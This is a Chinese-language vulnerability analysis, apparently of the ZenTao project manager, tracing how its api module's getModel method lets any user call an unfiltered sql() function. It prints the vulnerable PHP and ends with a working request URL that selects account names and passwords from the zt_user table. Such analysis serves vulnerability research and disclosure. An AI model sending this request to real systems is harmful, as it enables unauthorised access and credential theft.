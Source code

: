 通过之前获取的**moduleName**包含对应的**control类**文件并实例化，随后调用**setParamsByPathInfo**方法从路径中获取方法对应的参数值，最后通过**call_user_func_array**方法调用对应**control类**中的对应方法并赋值。

我们查看**module/api/control.php**文件中的**getModel**方法

![image-20220209202954859](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202092029964.png)

这里通过**call_user_func_array**函数调用所有的**model文件**的所有方法。

```php
$result = call_user_func_array(array(&$module, $methodName), $params);
```

可以看到**module/api/moudel.php**中的**sql函数**

```php
public function sql($sql, $keyField = '')
{
    $sql  = trim($sql);
    if(strpos($sql, ';') !== false) $sql = substr($sql, 0, strpos($sql, ';'));
    a($sql);
    if(empty($sql)) return '';

    if(stripos($sql, 'select ') !== 0)
    {
        return $this->lang->api->error->onlySelect;
    }
    else
    {
        try
        {
            $stmt = $this->dao->query($sql);
            if(empty($keyField)) return $stmt->fetchAll();
            $rows = array();
            while($row = $stmt->fetch()) $rows[$row->$keyField] = $row;
            return $rows;
        }
        catch(PDOException $e)
        {
            return $e->getMessage();
        }
    }
}
```

这里并没有进行过滤，只使用了代码**$sql=trim($sql)**过滤了空格

我们看一下这里的调用这个方法需要的权限

![image-20220209203019001](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202092030068.png)

这里可以看到任何用户都可以调用这个模块的方法，所以我们用它调用**sql**方法进行查询(空格转换为+,绕过过滤)

```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```
